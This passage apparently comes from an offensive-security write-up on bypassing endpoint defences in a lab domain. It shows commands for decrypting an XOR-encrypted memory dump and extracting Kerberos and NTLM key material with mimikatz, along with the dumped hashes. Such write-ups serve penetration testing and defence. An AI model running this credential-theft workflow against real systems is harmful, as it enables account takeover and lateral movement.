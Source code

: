 ```
sys.exit()
```

Decrypt the dump and finally parse it locally using mimikatz such as follows.

```
C:\> python .\decryptor.py .\ENCRYPTED.dmp
XORed output saved to "DECRYPTED.DMP"
Xor Key: ripLs4SS123

C:\> .\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Dec 13 2022 17:51:26
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # sekurlsa::minidump DECRYPTED.dmp
Switch to MINIDUMP : 'DECRYPTED.dmp'

mimikatz # sekurlsa::ekeys
Opening : 'DECRYPTED.dmp' file for minidump...

Authentication Id : 0 ; 996 (00000000:000003e4)
Session           : Service from 0
User Name         : TEST$
Domain            : BYPASSMDE
Logon Server      : (null)
Logon Time        : 24-03-2024 15:55:13
SID               : S-1-5-20

         * Username : test$
         * Domain   : BYPASSMDE.LOCAL
         * Password : (null)
         * Key List :
           aes256_hmac       4c9952ab599063d02f8d4c1cbf54bd058f740c83f9067d3f1223dce73a05467e
           rc4_hmac_nt       d50adb935a746e35f9faccd4f7c62b69
           rc4_hmac_old      d50adb935a746e35f9faccd4f7c62b69
           rc4_md4           d50adb935a746e35f9faccd4f7c62b69
           rc4_hmac_nt_exp   d50adb935a746e35f9faccd4f7c62b69
           rc4_hmac_old_exp  d50adb935a746e35f9faccd4f7c62b69

[snip]

mimikatz # exit
Bye!
```

# Conclusion
